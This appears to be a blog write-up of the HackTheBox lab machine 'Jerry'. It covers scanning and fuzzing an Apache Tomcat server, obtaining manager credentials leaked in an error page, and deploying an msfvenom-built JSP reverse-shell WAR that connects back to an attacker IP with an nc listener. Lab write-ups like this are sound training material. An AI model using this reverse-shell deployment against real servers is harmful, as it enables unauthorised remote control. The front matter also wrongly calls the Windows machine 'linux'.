 ```yaml
---
title: "Jerry"
date: 2023-09-11T21:46:53+02:00
tags: ["windows","web"]
categories: ["hackthebox"]
author: "Ayman Boulaich"
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
description: "A friendly linux machine which has a only http port which is vulnerable to WAR files upload. PrivEsc for this machine is not needed."
canonicalURL: "https://canonical.url/to/page"
disableHLJS: true # to disable highlightjs
disableShare: true
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: false
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
    image: "<image path/url>" # image path/url
    alt: "<alt text>" # alt text
    caption: "<text>" # display caption under cover
    relative: false # when using page bundles set this to true
    hidden: true # only hide on current single page
editPost:
    URL: "https://github.com/pwndside/pwndside.github.io/content"
    Text: "Suggest Changes" # edit text
    appendFilePath: true # to append file path to Edit link
---
```


## Room Information

- Room name: Jerry
- Difficulty level: Easy
- Room link: https://app.hackthebox.com/machines/Jerry

![Untitled](/HTB/jerry-icon.png)

## Tools Used

- nmap
- msfvenom

## Port Scanning

```bash
sudo nmap $IP -n -Pn -vvv --min-rate 5000
```

```bash
PORT     STATE SERVICE REASON          VERSION
8080/tcp open  http    syn-ack ttl 127 Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache-Coyote/1.1
```

Only one http server in port 8080 running a website powered by Apache Tomcat.

## Enumeration

![Untitled](/HTB/jerry-1.png)

The website looks like a default Apache Tomcat website.

Let’s fuzz the page

```bash
gobuster dir -u http://$IP:8080/ -w ~/Documents/wordlists/KaliLists/dirb/common.txt -x php,html,css,js,py,txt -t 100 -o fuzz | tee fuzz.save
```

```bash
/aux                  (Status: 200) [Size: 0]
/com1                 (Status: 200) [Size: 0]
/com2                 (Status: 200) [Size: 0]
/com3                 (Status: 200) [Size: 0]
/con                  (Status: 200) [Size: 0]
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/favicon.ico          (Status: 200) [Size: 21630]
/host-manager         (Status: 302) [Size: 0] [--> /host-manager/]
/manager              (Status: 302) [Size: 0] [--> /manager/]
/tomcat.css           (Status: 200) [Size: 5931]
```

The manager directory called my attention, could be a potential admin page.

When I try to access to `/manager` directory a prompt with a login form is displayed so I decided to put default/common credentials.

But when I failed the first login attempt a server error is displayed but leaking the credentials

![Untitled](/HTB/jerry-2.png)

![Untitled](/HTB/jerry-3.png)

Once inside we can see a admin tool where we are able to upload WAR files.

## Exploiting

After investigating about WAR files, I found a blog talking about how to build a reverse shell for Tomcat servers.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.9 LPORT=4444 -f war -o shell.war
```

The above command builds a Java JSP reverse shell with war extension.

Now it’s time to upload and deploy the file.

![Untitled](/HTB/jerry-4.png)

A new directory is displayed in the admin tool, let’s access to `/shell` but before we need to set a nc listener.

```bash
nc -lv 4444
```

## Gaining an Initial Foothold

![Untitled](/HTB/jerry-5.png)

**NT\AUTHORITY SYSTEM** without privEsc, I think it is the easiest machine so far.

## Flag(s)

![Untitled](/HTB/jerry-6.png)

![Untitled](/HTB/jerry-7.png)

